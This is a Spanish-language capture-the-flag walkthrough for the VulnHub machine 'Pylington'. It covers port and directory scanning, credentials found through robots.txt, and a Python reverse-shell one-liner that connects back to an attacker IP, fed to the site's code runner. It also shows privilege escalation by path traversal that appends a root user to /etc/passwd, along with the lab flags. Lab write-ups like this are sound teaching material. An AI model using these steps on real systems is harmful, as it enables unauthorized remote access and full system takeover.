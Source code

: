 ```yaml
---
icon: flag
---
```


# PYLINGTON VulnHub

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sS <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 12:13 EDT
Nmap scan report for 192.168.5.146
Host is up (0.0011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.5 (protocol 2.0)
| ssh-hostkey: 
|   3072 bf:ba:23:4e:69:37:69:9f:23:ae:21:35:98:4d:39:fa (RSA)
|   256 ed:95:53:52:ef:70:1f:c0:0e:3c:d8:be:35:fc:3a:93 (ECDSA)
|_  256 2d:b8:b0:88:52:83:7b:00:47:31:a4:76:2b:3d:7d:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Unix) mod_wsgi/4.7.1 Python/3.9)
|_http-generator: Jekyll v4.1.1
|_http-server-header: Apache/2.4.46 (Unix) mod_wsgi/4.7.1 Python/3.9
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Pylington Cloud | The best way to run Python.
| http-robots.txt: 3 disallowed entries 
|_/register /login /zbir7mn240soxhicso2z
MAC Address: 00:0C:29:5E:53:7E (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   1.07 ms 192.168.5.146

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.11 seconds
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x php,html,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.146/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.html       (Status: 403) [Size: 993]
/.htaccess            (Status: 403) [Size: 993]
/.htpasswd.php        (Status: 403) [Size: 993]
/.htpasswd.txt        (Status: 403) [Size: 993]
/.htaccess.txt        (Status: 403) [Size: 993]
/.htpasswd            (Status: 403) [Size: 993]
/.htaccess.php        (Status: 403) [Size: 993]
/.htaccess.html       (Status: 403) [Size: 993]
/404.html             (Status: 200) [Size: 3305]
/assets               (Status: 200) [Size: 1536]
/favicon.ico          (Status: 200) [Size: 15406]
/index.html           (Status: 200) [Size: 4065]
/login                (Status: 200) [Size: 3475]
/register             (Status: 200) [Size: 3149]
/robots.txt           (Status: 200) [Size: 83]
/robots.txt           (Status: 200) [Size: 83]
/~bin                 (Status: 403) [Size: 993]
/~root                (Status: 403) [Size: 993]
/~mail                (Status: 403) [Size: 993]
/~ftp                 (Status: 403) [Size: 993]
/~nobody              (Status: 403) [Size: 993]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Por lo que podemos ver hay una `/robots.txt/` y si nos metemos dentro encontraremos lo siguiente...

```
User-agent: *
Disallow: /register
Disallow: /login
Disallow: /zbir7mn240soxhicso2z
```

Si nos vamos a la siguiente `URL` llamada `/zbir7mn240soxhicso2z` veremos lo siguiente...

```
Username: steve

Password: bvbkukHAeVxtjjVH
```

Nos dan las credenciales de un usuario llamado `steve` por lo que nos logeamos en `/login/` y cuando metamos esas credenciales, nos pondra un mensaje de bienvenida pinchamos en ese `Welcome back! Steve` y nos redirigira a la `URL` llamada `n8pji3yeaccqvek2uzfc` donde se encontrara por lo que parece una especie de `Output` para enviar comandos mediante `python`...

Si en el `Program` metemos lo siguiente...

```python
i = input("")
exec(i)
```

Y en el `Standard Input` metemos lo siguiente...

```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

Lo rellenamos acorde a nuestras necesidades y estando a la escucha...

```shell
nc -lvnp <PORT>
```

Le damos a `run` una vez ejecutado nos creara una `shell` con el servidor...

Si nos vamos a `/home/py/` encontraremos muchas cosas pero entre ellas un minijuego llamado `typing` por lo que haremos lo siguiente...

```shell
./typing
```

Esto iniciara el minijuego y veremos lo siguiente...

```
Let's play a game! If you can type the sentence below, then I'll tell you my password.

the quick brown fox jumps over the lazy dog
```

Por lo que tendremos que responder con la siguiente respuesta...

```
the quick brown fox jumps over the lazy dog
```

Una vez hecho eso nos mostrara la contraseña del usuario `py`...

```
User = py
Password = 54ezhCGaJV
```

Nos conectaremos por `ssh`...

```shell
ssh py@192.168.5.146
```

Metemos la `passeord` y ya estariamos dentro, leemos la flag...

> user.txt (flag1)

```
ee11cbb19052e40b07aac0ca060c23ee
```

Por lo que podremos ver hay un archivo llamado `backup` en una carpeta `secreta` lo podemos ejecutar como `root` de normal, por lo que haremos lo siguiente...

En nuestro `host` generaremos una contraseña para el `passwd`...

```shell
openssl passwd -1 -salt <username> <password>
```

Info:

En mi caso con lo que le implemente me salio esto...

```
$1$diseo$tBqyKr.3ZHUYVzTIqyJg0/
```

Dentro del servidor victima hacemos lo siguiente...

```shell
/home/py/secret_stuff/backup
```

```
Enter a line of text to back up: <USERNAME>:<OPENSSL_GENERATE>:0:0:/root:/bin/zsh

Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/../../../../etc/passwd
```

Una vez hecho esto haremos lo siguiente...

```shell
su <USERNAME> 
```

Nos cambiamos al usuario que agregamos al `passwd` y con la contraseña que generamos tambien, por lo que ya seriamos `root`...

Leemos la flag...

> root.txt (flag2)

```
63a9f0ea7bb98050796b649e85481845
```
